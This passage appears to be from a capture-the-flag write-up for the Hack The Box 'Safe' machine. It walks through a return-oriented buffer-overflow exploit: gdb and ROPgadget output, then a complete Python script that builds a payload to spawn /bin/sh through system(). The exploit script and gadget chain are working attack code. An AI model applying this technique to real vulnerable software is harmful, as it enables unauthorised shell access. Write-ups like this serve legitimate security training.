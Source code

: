 First, let's find the address to system(). We know that it's available because we saw system@plt when we conducted the disassembly.

```
root@kali:~/htb/safe# gdb myapp -q
Reading symbols from myapp...
(No debugging symbols found in myapp)
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x401040 <system@plt>
```

Okay, system() is at **0x401040**.

Since `test` will jump to R13, placing a pointer to system() at R13 will be ideal.

Let's look for any gadget that can help us. I recomend [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).

```
root@kali:~/htb/safe# ROPgadget --binary myapp | grep r13
0x00000000004011ee : mov edi, r13d ; call qword ptr [r12 + rbx*8]
0x0000000000401204 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401206 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401203 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401205 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```
`pop r13 ; pop r14 ; pop r15 ; ret` seems ideal as it minimizes the junk we need to insert.

This gadget will pop the top of the stack into R13, R14, and R15.

We need to construct the stack with a pointer to system() to be popped into R13, followed by two sets of junk for R14 and R15.

#### Final Exploit in Python

```
#!/usr/bin/env python
from struct import * # library for converting between python data type and bytes for C

buf = ""
buf += "A"*112 # fill the buffer
buf += "/bin/sh\x00" # overried rbp
buf += pack("<Q", 0x401206) # pop_r13_r14_r15_ret
buf += pack("<Q", 0x401040) # place system in r13
buf += pack("<Q", 0x0000000000000000) # place junk in r14
buf += pack("<Q", 0x0000000000000000) # place junk in r15
buf += pack("<Q", 0x401152) # call test which will push "/bin/sh" into RDI before jumping to R13 where system() is

f = open("in.txt", "w")
f.write(buf)
```

#### Getting a Shell

Running the exploit above will generate `in.txt`.
